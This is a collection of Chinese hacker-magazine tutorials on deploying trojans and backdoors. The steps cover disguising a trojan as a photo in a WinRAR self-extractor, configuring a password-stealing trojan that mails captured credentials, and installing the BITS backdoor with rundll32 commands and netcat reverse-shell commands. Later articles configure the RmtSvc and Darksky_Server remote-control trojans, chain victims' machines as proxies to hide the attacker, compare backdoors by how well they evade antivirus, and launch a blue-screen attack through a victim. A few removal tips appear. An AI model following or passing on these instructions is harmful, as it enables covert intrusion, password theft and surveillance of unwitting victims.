1. 首先，选定两个文件（server.exe和我的照片.jpg，我们可以把server.exe的属性改为隐藏），点击鼠标右键，选择“添加到“XXXXX.rar””（XXXXX为你压缩后的文件名，一般为压缩文件所在目录，可自己定义）。
现在双击打开生成的rar文件，点击工具栏上的自解压图标，得到图1的对话框。


2. 选择“高级自解压选项”，弹出图2所示的对话框，在“解压缩路径”中填入要解压的路径（推荐c:\winnt\temp，因为系统临时目录里的文件会在系统重启后自动清除，从而可消除木马留下来的痕迹）。如果路径下不存在该文件夹，那么将会自动创建。
在“解压缩之后运行”中输入木马的服务器端server.exe，“解压缩之前运行”中输入我的照片.jpg。
此处有一定的欺骗性，生成的程序运行时先调用默认关联的图片查看程序来打开我的照片.jpg，等关闭这个图片查看程序后才会运行server.exe，可以起到一定的迷惑作用。所以顺序一定不能颠倒，否则就露馅了。

3. 现在点击“模式”标签，选择“全部隐藏”和“覆盖所有文件”这两个选项。
这两个选项是为了不让rar解压时弹出窗口。然后点击“文字和图标”标签，这里完全满足了图标伪装的要求，选择你喜欢的图标吧！


点击“高级”标签（图3），还可在“删除”中填上要删除的文件。哈哈，真是个周到的“捆绑机”（注：所填文件将会完全清除，不放入回收站，请慎用这招）。


最后点击两下“确定”返回，在同一目录下会生成一个与rar同名的exe文件，这个就是“捆绑”后的文件。你也可以给文件更名，比如“我的照片.jpg.exe”。一定要注意，文件后缀名必须是exe。
这样，我们精心打造的伪装木马便完成了。WinRAR“捆绑”的文件一般不会被杀，且捆绑后的文件在第一个正常程序运行结束后才运行服务端，有很大的迷惑性。
木马伪装是黑客常用的攻击手法之一，看完了本文，我想你一定会成为文件伪装高手！

## 牧马记


# 把你的密码给我吧

Win2k/WinXp下几乎所有普通窗口的登录密码，如：QQ、ICQ、电子邮箱、网吧上网账号、软件注册码、各种游戏软件、各种财务软件、各种管理软件、拨号上网、共享目录、屏保等！美中不足的是，它是共享软件，需要注册，未注册版本可试用所有功能。但前五位密码以星号“*”屏蔽。注册后以前的密码和以后的密码都会解除屏蔽，并且无密码数和时间限制。不要担心，不必破费去花钱买个注册码。因为黑软早就给你准备好了，网上有很多它的注册机下载，图3是我用注册机注册的结果。


首先，这是一篇菜鸟写给菜鸟的文章，希望对那些像我一样苦苦探索的菜鸟们有所帮助。好了，现在打开我们今天要用到的小木马——密码解霸。其主界面如图1所示。它的外表并不十分出众，但却隐藏着极大的杀机。如果你的机器不幸中了这种木马，呵呵，你的密码都将要易主了。下面我们一起来看看它的功能和操作。

图1

## 一、基本设置

选中“基本设置”标签页。填写你的电子邮件地址和保护密码即可，如图1。该程序的智能化之处在于：不需设置接收邮箱密码也可收到密码解霸窃取的各类密码！这在一定程度上防止了被人反跟踪查出木马主人邮箱的密码，对你的隐私起到保护作用。然后就是“保护密码”，可防止别人更改你对密码的设置。更能确保程序稳定地为你服务。


图1

## 二、高级设置

选中“高级设置”标签页（图2）。“主机标志”处随便填写即可。“安装提示”处一般什么都不填，这样别人运行你的木马时就什么提示也没有了。如果你想迷惑对方，可在这里填写一些迷惑性词语（如：文件已损坏，请重新下载等），然后勾选“增量发送密码”。这样就可过滤掉一些重复密码。“热键”可自己设置，按照个人爱好，随便啦！

## 三、自动升级

这个就不用多说了吧？填上自己邮箱的用户名和密码就可以了。一提到要填邮箱密码，我还是觉得不填的好，毕竟是“黑软”嘛，要是让别人来个顺藤摸瓜，那可就得不偿失喽！

## 四、软件注册

密码解霸功能强大，可捕获Win9x/


图3

## 五、生成

配制完这个小木马后，就可点击“生成”按钮，写上保存路径及生成木马的名称即可。
现在，我们就可把它发给你的目标，让他运行。但很少有人能相信一个陌生人发来的应用程序，所以最好再对它进行一下伪装，至于如何伪装，就不在今天的讨论范围之内了。

## 六、总结

本木马的运行流程主要是：运行本程序→在“基本设置”中填写密码接收邮箱，其它项都为默认值→点击“生成”保存配置文件→本机或其他机器上运行该文件→结束。我认为本软件是目前同类软件中功能最全、最好的一个。
值得说明的是：任何盗窃他人密码的行为都是非法的，希望广大朋友慎重使用本软件（本文的配套录像（avi格式）以及文章中所涉及的软件在光盘中有收录）！


# BITS

提起中国HACKER界的榕哥好象无人不知无人不晓吧？他的网名叫小榕。大名鼎鼎的流光、溯雪、CA……都是此人的代表作品。本人也是榕哥的忠实FANS就在2003年的9月17日，榕哥在他的网站上又发布了一款新的后门——BITS。榕哥写后门我还是第一次听说。赶快下了一份做试验。没想到榕哥写后门也很出色，不敢独享，所以今天我就把超级后门BITS带给大家。

BITS和传统的后门有点不太一样。大家以前用的winshell等都是exe格式的，但BITS是dll格式。也就是应用程序扩展格式的。只有一个文件。文件全名BITS.DLL，下载地址为：http://www.netxeyes.com/bits.dll（光盘中有收录）。

下面是小榕本人对此后门的特点介绍：
1. 进程管理器中看不到；
2. 平时没有端口，只在系统中充当卧底的角色；
3. 提供正向连接和反向连接两种功能；
4. 仅适用于Windows2000/XP/2003；
怎么样？不错吧！融合了很多后门的优点，还可以反向连接穿透防火墙呢！下面我就为大家详细介绍BITS的使用方法。

## 牧马记

## 一、安装

要想在肉鸡上安装必须要有肉鸡上的 administrators 权限或者是 system 权限。其他权限是不行的。用3389登陆或者是telnet上肉鸡就是administrators权限，一般溢出拿到的shell也大都是system权限。首先给大家介绍图形界面（也就是3389）上安装BITS的方法。BITS的安装非常简单。只需单击“开始”→“运行rundll32.exe BITS.dll,Install <Active Strings>”。注意：“<Active Strings>”里的字符可以随意替换。他的意思就是自己指定的一个特征字符串，用于激活BITS。这里我使用的命令是：rundll32.exe BITS.dll,Install rasauto zihuan。我指定的特征是zihuan，如图1。


然后点击“确定”就可以了。不会有任何提示就安装成功了。需要注意的是，BITS必须放在winnt\system32\目录下。以上就是图形界面的安装。

命令行的安装和图形的安装差不多。首先我 telnet 上内网的一个主机。然后使用 tftp 上传 BITS.dll 到 c:\winnt\system32\目录下。如图 2、图 3。


上传完毕后直接执行 rundll32.exe BITS.dll,Install rasauto zihuan，同样也没有什么反应，OK了！如图4。


## 二、连接方法

BITS 提供两种连接方法：

1.正向连接

首先用 nc 连接目标主机的任何一个 TCP 端口，这里我连接的是 80 端口（图 5）。


然后按以下格式输入激活命令：
<Active Strings>@dancewithdolphin[xell]:<PORT>“<Active Strings>”是刚才安装时我指定的特征字符zihuan，“<PORT>”是你想获得cmdshell的端口。
如果选99端口，命令就是这样：zihuan:@dancewithdolphin[xell]:99。如图6。


执行完命令后会返回一些信息，不用理会，这就说明BITS已经被激活了。并且在被安装的主机上开了一个port=99的cmdshell，然后马上用NC连接对方99端口。命令为nc -vv 10.114.0.29 99。如图7。


连接成功！是不是很酷？如果你不喜欢99端口，可在zihuan：@dancewithdolphin[xell]:99处修改任意端口。以上就是使用BITS的正向连接功能。

2.反向连接


现在有很多机器都安装了防火墙，这样就需要利用到反向连接功能。要想实现反向连接首先需要使用 nc 在本地监听一个端口。这里监听的端口任意。我监听的是1234端口，使用的命令是nc -l -p 1234。

如图8。
然后还是用nc连接目标主机的任何一个防火墙允通过的TCP端口，这里我选的还是80端口。然后输入命令zihuan@dancewithdolphin[xell]:10.114.0.31:1234，先给大家解释一下：< 你指定的特征字符 >@dancewithdolphin[xell]:<你的IP>:<你用NC监听的端口>。我刚才选择的特征字符是“zihuan”；我的IP是“10.114.0.31”，刚才用NC监听的端口是1234，所以才执行以上命令。不难理解吧？如图9。


看到以上信息后，再回去看看刚才用NC监听的本地1234端口。是不是出来了一个远程反向连接的shell（图10）。
OK！成功。这样一来还可以穿透一些防火墙呢！
以上就是BITS的反向连接功能。下面我给大家介绍一下如何卸载BITS。同样也非常简单。只要到肉鸡上输入rundll32.exe BITS.dll,Uninstall，然后再重新启动一下肉鸡就可以了。


# 注意

- 1: 无论是安装还是连接，一切输入字符必须要区分大小写。
- 2: 如果没有成功，可尝试在安装时使用rundll32.exe BITS.dll,Install rasauto <Active Strings>

本篇就到这里了，如果有什么不清楚和错误的地方，欢迎来我们论坛交流(www.hackerxfiles.net/bbs)。

## 牧马记

# 打造免杀的木马 RmtSvc

钟毅榕

相信大家在网吧使用木马的时候，都遇到过每次要重新下载木马客户端程序的麻烦。我在近日泡论坛的时候，看到一个关于RmtSvc木马的帖子，下载试用后，感觉这个木马真的非常不错。不仅技术上很有创新，功能也很齐全，最方便的是，只要计算机上装了IE等浏览器，就随时随地都可以对服务端进行控制。这么好的东西我实在不敢独享，现在就把它拿给广大黑迷们介绍一下。

## 一、功能特色

我手头上的RmtSvc版本是v2.3.3（光盘中有收录），该木马号称国内第一款B/S方式的远程控制工具（现在的木马技术层出不穷，反弹技术完了，现在又来了个B/S（Browser/Server）方式。回想起以前自己初入“黑道”写的一个木马，和这些相比起来，真是汗颜）。并且是纯绿色软件，在客户机上无需安装。木马的程序本身既是客户端又是服务端，最爽的是，我们可以直接通过Windows自带的IE浏览器来控制服务端计算机，并且功能丝毫不比传统的C/S木马弱。除了具有一般的远程进程查看、远程控制服务端等功能外，该木马还内置了FTP和代理服务器的功能，可以很方便地在本地计算机和肉鸡之间传输文件，或者把肉鸡做成自己的代理服务器。

## 二、木马的安装

该木马的安装很简单，感觉和Snake的写的跳板程序差不多。首先，我们把木马复制到肉鸡上，然后Telnet上肉鸡，在命令行下输入rmtsrc -i。就这样，木马便在肉鸡上安装成功（图1）！

```
C:\>rmtsvc -i

RmtSvc v2.3.3

[Install] NT Service as follows: 'rmtSvc'

C:\的目录

PRNLOG.TXT PDOS.DEF AUTOEXEC.BAT [WINDOWS]
[My Documents] SCANREG.LOG SETUP4X.TXT [temp]
[AUTOEXEC.BAT] LOGOMMGR.LOG boot.ini
[Config.sys] [WINDOWS] [HKEY_LOCAL_MACHINE] nc.exe
[AUTOEXEC.BAT] [WINDOWS] [HKEY_LOCAL_MACHINE] nc.exe
[Hkey_local_machine\system] [WINDOWS] [HKEY_LOCAL_MACHINE] User32.exe
[My Documents] [WINDOWS] [HKEY_LOCAL_MACHINE] abcd.exe
[Program Files] [WINDOWS] [HKEY_LOCAL_MACHINE] defg.exe
1 个目录 498,098,844 可用字节

C:\>net start rmtSvc

RmtSvc Control Service.

The RmtSvc Control Service service is starting.
The RmtSvc Control Service service was started successfully.

C:\>
```

图1

## 三、使用说明

在肉鸡上安装完毕后，在IE（最好是5.0以上的）的URL地址栏中输入http://rmtSvc-IP:rmtSvc-Port即可。其中，“rmtSvc-IP”是指运行rmtSvc服务的被控计算机IP；“rmtSvc-Port”是指rmtSvc服务的端口，默认是7776，你可以通过控制界面修改它。如我们输入http://123.123.123.123:7776，接着会出现图2所示界面。

这里我们需要登录密码才能进入木马的服务控制台，默认密码是123456（很可惜，该木马需要注册才能修改登录密码）。呵呵，看到了吧，在IE的地址栏下面就是rmtSvc的选项了，我们来逐个讲解一下吧！

Pview：这是中了木马的计算机系统信息和进程查看选项。在这里，不仅可得到木马服务端计算机的各种详细信息，还可查看该计算机正在运行的所有进程的详细信息。

喜欢的话，可随时把不想要的进程结束掉（图3），或者设置进程的优先级。另外，在这里还可显示远程计算机当前登录帐号、密码信息（仅适用于NT/Win2000）。

Spy++：该选项主要用来监视和控制远程计算机。打开该选项后，我们可以很清楚地看到对方计算机上正在显示的屏幕内容（图4）。


图2

```
软件说明:

Software:rmtSvc(remote control service)

Version:2.3.3

Home page:http://www.vevan.net

Welcome to use Remote Control Service in which Proxy and FTP service have been embed.the solution for remote manager.you can get information about it from Home.Please send mail to me or submit it in my forum. If you have any question or bugs.This is a shared software tool,the default password of login is "123456"!

please Log in: (password:******)

OK

系统信息:

[系统信息] [自启动] [进程] [服务] [密码] [代理] [FTP] [控制台] [关于] [退出]

[系统信息] 主机名称: RMT-BOY 当前登录用户: V0000

操作系统: Microsoft Windows XP Professional Service Pack 2

CPU: Intel(R) Celeron(R) CPU 2.400GHz

内存: 261616 KB

可用内存: 190956 KB

系统目录: C:\WINDOWS\system32

启动时间: 2008-05-03 06:05:58

当前时间: 2008-05-03 23:14:41

IP地址: 192.168.1.100

```

图3

我们可以根据自己的网速，来选择右下角的“Fair”、“Good”和“Best”三个图像质量选项，以达到图像清晰度和速度的最佳平衡点。除此之外，我们在右下角的“Start”选项中选择各种动作，


## 牧马记

例如重新启动计算机、注销用户和查看等。如果我们想显示远程计算机上的星号密码，那么只要在“Start”中选择“Password → Text”，然后用鼠标点击密码框，就可以将密码显示出来，选择“Password → None”则表示不显示（该功能甚至连Web页面中的星号密码都显示出来，非常强大）。


Proxy：这个是rmtSvc内置的代理服务功能，支持HTTPS/SOCK4/SOCK5代理协议。例如我们要把肉鸡做成Http代理服务器来上网，只需要在“Proxy port（代理端口）”中输入“8080”，而如果我们想让这个代理服务器只为自己服务，那么可以把“Authentication”旁边的“enable”选上，接着输入用户和密码（图5）。

最后点击“Proxy Service status”中的“Run”。好了，以后在IE等浏览器设置用这个代理上网的时候，同时输入好上面设置的用户和密码便可，别人即使用软件找到了这个代理服务器，也并不知道我们设置的用户和密码，也用不了这个代理，通过这个功能我们可以举一反三的制做出其它的代理来，就不多说了。


当然，如果我们想进一步隐藏自己的IP地址，可以制作一个二级代理。只要把“cascade proxy”旁边的“setting”选上，然后在“cascade IP”和“cascade Port”中输入另外一个代理服务器的IP地址和端口就可以了。

如果我们有多台肉鸡，那么可以在每一只肉鸡上都安装一个rmtSvc，利用rmtSvc的这个功能把肉鸡连接起来做成多级代理服务器。哈哈！这时候别人想要查出你真正的IP地址的话，就真的是难于登天了。最棒的是，我们还可以定义各种代理过滤规则，决定是否允许数据包通过此代理，实在让一些高级用户（高手）觉得过瘾！

简单，启动该功能后，肉鸡便成为一台FTP服务器了。以后我们想要在肉鸡上放工具，通过它可以省下不少的功夫哦！

Logoff：点击这个选项后，我们便注销退出rmtSvc了，需要再次输入密码才能进入，感觉这个功能好像没有什么用处。

Option：这个选项用来设置rmtSvc这个木马本身（图6）。如果你有这个木马的注册码，那么只要在“input regist code”中输入好注册码，便可以更改木马程序的登陆密码。

如果我们要更改木马的监听端口，可以点击该页面右上角的“Restart”按钮，会出现图7所示的窗口，接着我们在窗口内输入自己想监听的端口便可以了。而如果想要禁止或允许系统管理员通过net stop命令停止rmtSvc服务，只需要相应设置好“Stop rmtSvc service from SCM or console”这个选项就可以了。

另外，在该页面的最下方，会显示出当前所有使用rmtSvc服务的客户信息。


## 四、木马的清除方法

- 1. 升级杀毒软件进行查杀，目前我的杀毒软件也可以查杀它了。
2. 查看系统的服务，或者利用端口查看程序，看看与各个端口连接的程序有没有可疑的地方。如果觉得有可疑的地方，那么在本机的浏览器上输入http://127.0.0.1:可疑端口，真中了的话，用上面文章介绍的木马自带的卸载功能清除便可。

## 五、后记

作为一款木马，rmtSvc不仅继承了木马功能强大的一惯传统，而且它所使用的B/S方式技术，相信也会给其它木马编写者一个很好的参考。
好了，这次关于rmtSvc的介绍就到这里了，大家要有什么问题可到X档案论坛（www.hackerxfiles.net/bbs）上联系我，我的ID是“RICKY仔”。

# 创建偏僻的后门 cmdblnd2

网络孤魂

广大黑客朋友们应该都知道，一个好的后门对于一个 hacker 来说意味着什么！至少我是深有体会。我曾经因为用了一个臭后门而几乎丢失了所有的肉机！那时我才懂得一个好的后门要比一个好的攻击工具更有价值。从那以后，我开始收集和研究各种各样的后门和木马。现在我的电脑里至少收藏了数百种！然而，随着对各种后门工作原理的渐渐了解却发现，这些后门只要稍微懂行的人就能轻易发现甚至清除！直到最近我才寻找到一个比较满意的。虽然还是有一点缺点，但还算是比较好的！为了更好的体现它的优点，我在自己的机子上做了一次对比试验。

## 试验环境

系统：windows2000 Advanced Server
杀毒软件：KV3000 2003 版+最新补丁
后门程序：NTRootkit 1.1、WinEggDrop Shell 1.39、cmdbind2
（注：以上后门程序光盘中有收录）

## 试验结果

### 1.NTRootkit 1.1

技术：此后门采用更改系统内核技术，实现了别的后门程序无法比拟的功能。
注册表启动项：没有更改。
进程：没有新增进程。
服务：新增一项服务，默认为 Rttkit（图1）。


端口：没有新增端口。
新增文件：C:\WINNT\Sys tem32\RttKit\ 目录下新增 global.dll、npf.sys、ntcs.dll、packet.dll、rtkit.exe。
杀毒：被查杀。
替换：由于程序执行后，在 C：\WINNT\System32\RttKit\ 目录下新增的 global.dll、rtkit.exe 被认为是病毒，因此就算换了壳，一样会在生成文件时使病毒防火墙报警。
优点：功能强大，没有新开端口，没有新增进程。

缺点：新增了一项服务，使其隐蔽性大打折扣！杀毒软件能够查杀！使用者无法通过换壳躲避杀毒软件！
清除方法：打开注册表，删除“HKEY_LOCAL_MACHINE\SYSTEM\Current ControlSet\Services\RttKit”项，重启计算机删除 C：\WINNT\System32\RttKit\ 目录和其中的文件。由于此后门更改了系统的内核，所以将此门清除后系统可能会报错！不过并不会影响系统的运行。如果你对此厌烦的话，可以不将后门清除，只在计算机管理工具中的服务里将此后门的服务设为禁用即可！

### 2.WinEggDrop Shell 1.39

技术：进程插入技术。
注册表启动项：没有更改。
进程：没有新增进程。
服务：新增一项服务，默认为 Windows Internet Services。
端口：新开一个端口，默认为 12345。
新增文件：C:\WINNT\System32\ 下新增 InjectT.exe、Back.DLL。
杀毒：被查杀。
替换：由于这个后门要用到一个 Back.DLL 文件，无法换壳。
优点：由于采用进程插入技术，没有新增进程，查看端口关联时会发现和设置的端口所关联的程序是 Back.DLL 文件所插入的进程文件！有一定的隐蔽性。
缺点：新增一项服务，使其隐蔽性大打折扣！杀毒软件能够查杀！使用者无法通过换壳躲避杀毒软件。
清除方法：打开注册表，删除“HKEY_LOCAL_MACHINE\SYSTEM\Current ControlSet\Services\”项下新增的服务。由于服务名可以自由设置，在判断时可以查看每一项服务的 ImagePath 项所写的路径，如果是“%SystemRoot%\System32\InjectT.exe”，那么这项就是后门的服务项，删除即可。重启后到“C:\WINNT\System32\”下删除 InjectT.exe 和 Back.DLL 两个文件即可！

### 3.Cmdbind2

技术：端口绑定技术。
注册表启动项：没有更改。

进程：没有新增进程（注意：由于此
后门是将 winlogon.exe 和 2000 端口绑定，
有时在进程管理窗口中 WINLOGON.EXE
的进程名可能会变成??winlogon.exe。进程
名前面会多两个问号。图2 和图3 是
winlogon.exe 进程的前后对比。图3 是我
用专门的进程查看工具查到的结果。


服务：没有新增服务。
端口：新开 2000 端口（图4是通过2000
端口得到的 shell）。
新增文件：无。
杀毒：不被查杀。
替换：可以换壳。
优点：系统中没有任何新增文件，也
没有任何修改。该程序驻留内存工作。每
次重启以后依然有效！对 2000 端口查看文
件关联可知，该文件和 winlogon.exe 关联，
有一定的隐蔽性！杀毒软件不对其进行查
杀！就算将来杀毒软件能够查杀，使用者
还可以通过换壳来躲避厄运！由于没有任
何新增文件，一般人想删除也很难下手。
缺点：无法更改端口、设置密码。
清除方法：由于此款后门是驻留内存
工作，要彻底清除，必须非正常关机。由
此也可看出此程序的编写者的高明之处，
非正常关机很容易会对硬件造成危害，因
此平时人们避之尤恐不及，又有谁会想到
用这种方法清除一个后门呢？

从上面的对比来看，cmdbind2还是有
相当优势的。那么这个后门又是通过什么
方法在不新增任何文件、不更改注册表和
新增服务项而达到重启后程序依然有效的
呢？


经过我无数次的试验和钻研，终于发
现：原来这款后门并非一直不更改系统和
新增文件的。它在程序被执行后删除程序
文件和启动文件中被更改的部分，然后在
系统被关闭前保留程序文件和更改启动文
件，让它在系统启动时又能被执行。因此
只有在关闭系统后你才能发现这款后门程
序在硬盘中的存在！

最后值得一提的是：这个后门似乎不
能在 DOS 下直接运行，至少在我的机子上
和我的 3 台机子上都无法用 DOS 直接执行，
不过可以通过使用 at 命令通过计划任务来
执行！

## 牧马记
## ——迷你型反弹木马Darksky_Server
### 小鱼儿 / 木马帝国

周杰伦的《双截棍》是一首很出名的流行歌曲，其节奏感和攻击性都很强；李小龙手中的双节棍挥舞起来更是虎虎生威，当者披靡，为中国武术争够了面子。我这次给大家介绍的Darksky_Server是一只出色的国产木马，其功能之强大（多达三十多种实用功能），体积之微小（20.5k），足以让它和李小龙手中短小精悍的双节棍相媲美！高手用它可如虎添翼，“攻城掠地”不在话下；新手用它它可以快速入门，成为旁人眼中无所不能的黑客。下面我就用一次 Darksky_Server的实际控制来给大家演示一番。

### 1. 使用木马前的准备

这个大家可能认为没有必要说，其实不然，因为在Internet网络上不一定可以成功使用木马，不在Internet网络也不一定不能用木马。我以前就看到很多新手用木马的时候经常会抱怨：为什么我的木马就是连接不上？在网吧可以用木马吗？有防火墙可不可以？这些问题实际上都是使用木马之前要解决的首要问题。

#### ①网吧是局域网

目前的反弹木马在局域网是不能对局域网外的木马使用的。
普通木马局域网内可以控制外网上的电脑。
普通木马和目前的反弹木马在局域网可以控制本局域网的电脑。
普通木马和目前的反弹木马是不能从一个局域网控制另一个局域网的，IRC木马可以。
以本篇的Darksky_Server为例，它的客户端如果在网吧内使用，可以控制外网电脑，也可以控制自己网吧的电脑，但不能控制另一个局域网。

#### ②防火墙

以现在的流行防火墙和Darksky_Server为例。防火墙安装在客户端电脑上：你主动连接服务端时，防火墙就会提示你有程序试图对外连接，问你是否放行，当然选择是就行了。

防火墙安装在服务端电脑上：同样，你主动连接服务端时会被对方的防火墙拦截，这时你是连接不上木马的。还有一种就是你设置的是反弹连接时，就会遇到上面说的是否放行的问题，如果对方允许，那么你就可以“穿过”防火墙连接上了。

#### ③我在外网

这种情况是使用木马的最理想的情况，因为可以不受局域网限制而任意连接。主动连接、反弹连接你都可以用，除了上面说的有防火墙的情况需要注意一下外，几乎都可以保证连接成功。

### 2.木马服务端的配置

关于什么是客户端什么是服务端我在以前的文章中讲过多次了，再说一遍老读者就不会高兴了，我就一句带过好了：客户端是控制端，服务端是被控端。木马的配置实际上就是用客户端来配置服务端。
下载 arksky_Server 的压缩包（180k），解压后里面有四个文件。其中Dk_Client.exe是客户端，Dk_Server.exe是服务端，我们要用的就这两个文件。双击打开Dk_Client.exe，我们点击“接受”进入如图1的界面，各项功能像网页的导航栏一样清晰的展现在我们眼前，所以这个木马非常适合新手们初学木马使用。


我们点击“设置→服务端设置”如图2，出现服务端设置界面。


点击目标文件空白框右边的一个印有“...”的小按钮，按了以后选择你要配置的服务端，如图3。


“注册的服务名”就是在注册表中的键值名，你把鼠标放上去会出现一个浮动说明，这样便于大家更好的理解配置的项目，如图4。


“注册的程序名”就是驻留在系统中的文件名，可以是.exe或者.com的后缀。
“客户端DNS”这个比较重要，因为这个木马的反弹功能能否正常使用主要就取决于它的设置是否正确。因为现在我是在局域网中给大家演示，所以我填的是我的局域网IP地址：192.168.0.1，如果你是在外网使用，那就应该填写你的公网IP地址，简单说就是你上QQ时（显IP的QQ才能看，不然你就只有看腾讯的广告了。）看到的自己的IP地址。当然你也可以通过在“开始→运行”中输入命令查看自己的IP，2000 / XP下是输入ipconfig，98下输入winipcfg。木马作者说在“客户端DNS中”是可以输入域名的，比如http://fish.dns2go.com这类动态IP自动解析类的域名，但这个DNS软件使用上（主要是申请上）很麻烦，我不推荐大家使用，不如就用我们国内的免费二级域名（例如http://my.126.com）代替。比如，我此时的IP是192.168.0.1，那么就让我申请的域名（比如http://fish.126.com）指向这个IP即可。填入配置框中如图5所示。如果大家实际使用中填写域名不能成功反弹，那么还是老老实实填写

## 牧马记

自己的IP吧，这样是肯定可以成功的。


“安装路径”是选择安装在系统的那个目录下，因为system下文件较多，木马不容易被发现，默认选择是安装在这下面的。

“绑定选择”可以选择EXE和TXT文件关联，关联了以后木马即使被删除也可以通过EXE关联恢复。

“运行特征”安装时自我删除和隐藏进程建议都选上。

“监听端口”可以自己修改，也可以默认5418。

“登录密码”自己设置一个就行了，以免其他人也可以控制你种的马。

“通知邮件”现在已经基本没用了，除非你还能找到无需SMTP验证的信箱。

全部配置完成后点“确定”完成对服务端的全部配置。

如果你觉得以上步骤太麻烦，而你又不想玩反弹功能的话，可以跳过上面的内容直接阅读下面木马的实际操作。

## 二、客户端配置

先谈谈连接方式，Darksky_Server的连接方式有两种，一是主动连接，就是客户端主动连接服务端，这种方式只能控制外网的机器，再就是反弹连接，由服务端主动连接客户端，这样我们不仅可以控制外网，就连网吧等局域网的电脑我们也可以控制了。下面我实际操作一下。

首先我给一台电脑运行了我刚才配置的服务端，然后我打开客户端，在“当前连接中”填入他的IP地址：192.168.0.9，选中“主动连接”，然后点击左上角的电脑图标进行连接，如图6。


如果IP地址、端口和密码都正确的话，最下面就会出现“通过身份验证”的成功提示，如图7。反之，下面就会出现“服务器拒绝登录”的错误提示。

如果对方是局域网中的电脑，我们可以选用反弹连接的方式，将反弹连接前面打上勾，几秒钟之后我们也可以成功连上了。成功连接上对方的电脑之后，左边就会出现他的电脑，我们可以浏览他的任何文件，并对他的电脑采取一系列操作，下面给大家详细讲一下。

### 1、文件操作

“文件下载”展开对方文件夹，可以看到客户端下方出现相应的提示：“小飞偷偷的告诉你他发现4个文件13个目录”，如图8。


如果我们想下载他电脑上的某个文件，比如一首DJ的歌，我们用鼠标右键点击要下载的文件，会弹出一列菜单，我们选择其中的“下载文件”，如图9，选择保存的地方，如图10。


既然我下载的是DJ，肯定放在我的音乐目录里啦，点击确定后开始下载，我们可以看到下载的进度条，如图11。


如果中途对方死机或者下线我们也可以及时发现异常，不会浪费多余的时间，这个设计看起来虽然微不足道，但是可以看出作者在编写木马的功能时是考虑到实际应用的，比起某些木马外表看起来华丽无比，但用起来操作不便，用不上的功能浪费了大量代码，使服务端庞大无比，Darksky_Server只有20.5k的服务端更是显得难能可贵。

“上传文件”和下载几乎是一样的操作方式，只是顺序倒过来了。

“删除文件”没什么可说的，不要恶意破坏就是了。

“文件属性”指远程修改文件属性，和本地一样。

“远程运行”是非常实用的功能，因为我们上传文件（比如QQ木马）到对方机器后，要想远程打开它就得用这个功能。

方法是选取我们要打开的文件，选择远程运行，如图12，稍后会弹出一个小框如图13，一般我们不用改，就用默认运行，隐藏运行大多数文件都没用，再说木马运行本来就是隐藏的，也不用多此一举了。

“运行参数”可以什么也不写。


“远程复制”即输入复制到一个地方的路径就可以了，这个我觉得可以改变自己上传过的文件的路径，免除再次上传的麻烦。作者为我们想的还是很周到的。

### 2、目录操作

和文件操作类似，就不多说了。

### 3、系统功能

“进程管理”是很实用的功能，木马必备。经常用来终止对方电脑中正在运行的某些程序，比如QQ、IE浏览器，甚至可以终止桌面的进程Explorer，桌面进程终止后对方电脑屏幕上只会留下一片背景色，只有重启才能恢复。点击“系统功能”->“进程管理”，比如我要终止对方电脑正在播放的歌曲，选择realplayer.exe。

黑客X档案2003 2004年合订本下册 27


## 牧马记

然后点终止进程，就关掉歌曲了。如图14。


“注册表管理”这个做的不算很人性化，有些木马比如way、灰鸽子等在注册表管理上做得和本地操作一样方便了。尽管如此，Darksky_Server的注册表管理也不是毫无可取之处，至少在速度和稳定性上都是很好的。使用方法是点击“系统功能→注册表管理”，会弹出一个框，在主轴中选择一项，如图15。要想展开这一项点“列举键”，这时在列举结果中会出现下级菜单，如此反复操作，可不断的向下一级展开。同样可以进行“新建”、“写入”、“读出”、“删除”等操作。


“执行命令行”。点击“系统功能→执行命令行”，在弹出框的空白处可以输入command命令，比如我输入regedit，点击执行如图16，就可以远程打开对方的注册表。


另外，系统功能中还有常见的远程操作，比如关机、重启、注销这些实用操作。

### 4.特殊功能

特殊功能本来应该有四种的，但是屏幕截屏和屏幕控制都是灰色的，不能使用，所以我只讲讲前两种功能。

“代理攻击”的作用就是利用这台被你控制的电脑去IGMP攻击另一台电脑。为什么我们不直接攻击呢？因为如果那样我们自己的IP地址就会被对方得到，从而产生不必要的危险，而用这台“肉鸡”去攻击第三方，对方只会看到是被这台“肉鸡”攻击了，根本想不到背后的主使者是我们。那么IGMP这种攻击有什么作用呢？使用Win98的朋友肯定有遇到蓝屏死机的情况，IGMP就是通过向对方Win98的139端口发送IGMP数据包，导致对方蓝屏，这也是网络是最常见的蓝屏炸弹的原理，Darksky_Server就等于集成了一枚蓝屏炸弹，是不是很厉害呢？其实防范这种攻击的方法也很多，除了装一个防火墙，还可以去打上专门的IGMP补丁，也可以将你的系统升级到win2000或winxp。操作方法是点击“特殊功能→代理攻击”，在弹出窗口中输入你要攻击的IP地址，端口仍选用139，攻击次数可以适当调大一点，填好后如图17所示，这时我们就可以点“开始”进行攻击了。


“telnet方式”就是通过telnet协议远程连接对方电脑，如果对方是NT或者XP，连接上之后你就可以用net user命令添加超级用户啦，如果对方是98系统，你也可以进行部分操作，如图18所示。


### 5.信息功能

信息功能纯粹就是恶作剧功能，里面就是一些和对方开玩笑的操作，Darksky_Server里面只设置了“系统通告”和“小飞信使”，有些功能强大的木马这类恶作剧功能甚至有几十种之多，如果对方中了那样的木马，而使用者又不是狠宅心仁厚的话……哎，同情ing。

“系统通告”，点击后弹出一个选择框，你可以自己定义信息的标题和内容，警告图标也可以自己选择，如果再加点创意的话，对方会被你吓得呆若木鸡，哈哈。编辑好的信息如图19，发送后对方的电脑上会弹出一个警告框，如图20，是不是很吓人？呵呵。


“小飞信使”是一个点点对的聊天室，在弹出的对话框中我们可以和对方“交流”一下，如图21所示。


好了，到现在为止Darksky_Server的功能已经介绍完了，一个好的木马该有的基本功能比如文件管理、进程管理、系统管理、注册表管理、信息管理等它都具备了。不仅如此，作者在仅有20K的服务端上还加入了目前流行的反弹端口功能，顿时间它身价倍增，Darksky_Server是我一直喜爱的一只木马，因为它体积小，功能够用，又没有垃圾功能，使我对他爱不释手，使用中表现又极其稳定，生存能力也比较强！对了，谈到它的生存能力，还忘了讲怎样卸载它。下面简单讲一下清除方法。

### 6.卸载方法

其实Darksky_Server里面就自带了卸载功能，如图22所示。


要注意的是，你点了卸载以后却仍然可以正常连接，这不是就没有卸载吗？当然不是了，你重启对方电脑后就无法再连接上了，现在明白了吧。手动删除比较麻烦一点，因为它关联了EXE和TXT文件，我们需要在注册表的相应位置将键值修改回来才行，如下所示：

```
EXE文件关联恢复为
[HKEY_CLASSES_ROOT\exefile\shell\open\command]
